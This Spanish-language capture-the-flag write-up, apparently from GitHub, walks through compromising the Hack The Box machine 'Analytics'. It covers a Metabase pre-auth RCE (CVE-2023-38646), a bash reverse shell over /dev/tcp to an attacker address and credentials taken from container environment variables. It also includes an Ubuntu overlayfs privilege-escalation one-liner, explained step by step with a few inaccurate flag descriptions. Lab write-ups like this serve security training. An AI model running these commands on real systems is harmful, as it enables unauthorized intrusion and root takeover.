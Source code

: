 # Analytics
- Comenzamos escaneando el objetivo, los puertos 22 y 80 están expuestos:
~~~ bash 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.233
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/613ad81c-f162-468e-b0f9-1d120b39975c)

- Añadimos **10.10.11.233 analytical.htb** a /etc/hosts y podemos ver una pagina por el puerto 80
- Al enumerar la pagina, nos encontramos con un subdominio en http://data.analytical.htb:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/17a42111-3161-468d-8227-2052895d5a2d)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/e2d15162-9fba-4c16-a524-b1400ce402af)

- También encontré el [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) que según su descripción, permite omitir el login a través de una vulnerabilidad en la api de Metabase
- El CVE nos indica que debemos buscar un **setup-token** en la ruta http://vulnerablehost.com/api/session/properties
 
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b07035b-5a06-4183-bbb1-1b6106820cd5)

- Perfecto, ahora utilizamos el [PoC del exploit](https://github.com/securezeron/CVE-2023-38646?source=post_page-----bd3421cba76d--------------------------------) creado por securezeron para llevar a cabo la explotación con los parametros requeridos
- Tras probar varias veces, el PoC no me envió una conexión inversa, así que decidí revisar el codigo, y cambiar el payload

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/c9c14f20-4e6f-4f74-b1ec-5e5c9242178f)

- Emplea un reverse shell encodeado en base64, por lo que opté por enviarlo por una solicitud hacia el endpoint ubicado en **/api/setup/validate**, mas en esta parte:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/bb724431-cd72-4681-9480-33c8ce550d44)

Yo prefiero utilizar 
~~~ bash 
bash -c "bash -i >&/dev/tcp/<ip>/<port 0>&1>"
~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/2b455954-d0eb-4581-871e-ca2e09ef1c18)

- Y estamos dentro :D

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/0b5c1204-5002-4cc9-93ec-087375f8058d)

- Después de enumerar un poco, podemos descubrir que nos encontramos dentro de un docker:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/09fdd2c5-5ee5-4569-a0dd-474e78ccaace)

- Por lo que decidí revisar algunas variables de entorno, y encontramos una contraseña, probablemente de ssh:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b451245a-c596-4740-a012-24bfd65c5a7c)

- Y en efecto que eran de ssh, ahora tenemos una shell mucho mas estable:

 ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/70a88eb6-22a8-41d5-b2a3-5ec1ac98a25d)

  - Primera flag :D
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/55354378-feea-4495-b996-13a22d06b0a8)


***
<h3>PrivEsc</h3>

- Después de enumerar durante buen rato, me perdí al no encontrar posibles verctores de ataque, hasta que decidí mirar la versión del kernel y del sistema operativo

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/6c095b34-77bb-42b2-8f3e-a6befcd69847)

  - Del kernel no encontré nada, pero si encontré un [CVE para la versión de ubuntu](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c)
  - Dado que es un exploit binario y requiero compilarlo, me di cuenta que la maquina victima no tiene gcc instalado, así que lo compilé en mi maquina y lo compartí por un servidor de python3

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1071f439-186e-4232-a04f-a1dc4eb31d7a)

- Y somos root:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f529e177-aca6-4e4f-a41e-1df31901ddc5)

**Extra**

- Encontré otros [CVE-2023-2640 & CVE-2023-32629 en un foro de Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=53261) donde se emplea una tecnica alterna para escalar a root a través de la creación de un entorno aislado dentro del equipo, con unshare, con el cual cambia el uid a uno perteneciente a root:

~~~ bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
~~~~

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa089137-e5e2-448f-b17f-e8d44e02b9e8)

**1- unshare -rm sh -c "...":**
Este comando utiliza la utilidad unshare para crear un nuevo espacio de nombres <namespace> con opciones -rm. Las opciones significan lo siguiente:
- r: Propaga una jerarquía de directorios nueva (root).
- m: Propaga un punto de montaje nuevo.
- sh -c "...": Ejecuta el shell sh en el nuevo espacio de nombres y ejecuta los comandos contenidos entre las comillas dobles "...".

2- mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3; mount - overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'":

Este comando realiza una serie de operaciones en el nuevo espacio de nombres creado:
- mkdir l u w m: Crea los directorios l, u, w, y m.
- cp /u*/b*/p*3 l/: Copia archivos que coincidan con el patrón /u*/b*/p*3 al directorio l.
- setcap cap_setuid+eip l/python3: Establece capacidades especiales en el archivo l/python3, que permiten la ejecución con capacidades adicionales (en este caso, la capacidad cap_setuid y cap_eip).
- mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: Monta un sistema de archivos overlay en el directorio m. Esto crea una capa que combina los archivos en l y u, donde l es la capa inferior (lowerdir), u es la capa superior (upperdir), y w es el directorio de trabajo (workdir). Esto permite la modificación de archivos sin afectar la capa inferior.
- touch m/*: Crea archivos vacíos en la capa combinada m.
- u/python3 -c 'import os;os.setuid(0);os.system("id")': Ejecuta el intérprete de Python (python3) que se encuentra en la capa superior u, y en ese intérprete, ejecuta un script que cambia el UID al de root (0) y luego ejecuta el comando bash para crear un entorno interactivo con las propiedades de root.
- rm -rf l u w m: Este comando solo elimina recursivamente los directorios l, u, w, y m
